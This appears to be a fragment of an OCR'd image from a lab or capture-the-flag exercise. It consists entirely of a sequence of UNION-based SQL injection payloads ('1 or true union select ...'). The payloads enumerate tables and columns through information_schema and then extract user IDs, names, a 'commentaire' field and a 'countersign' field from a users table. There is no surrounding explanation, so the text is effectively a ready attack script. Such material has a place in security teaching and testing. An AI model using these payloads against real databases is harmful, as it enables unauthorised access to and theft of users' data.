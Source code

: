 1 or true
1 or true union select table_name, table_type from information_schema.tables
1 or true union select table_name, column_name from information_schema.columns
1 or true union select user_id, first_name from users
1 or true union select user_id, commentaire from users
1 or true union select commentaire, countersign  from users

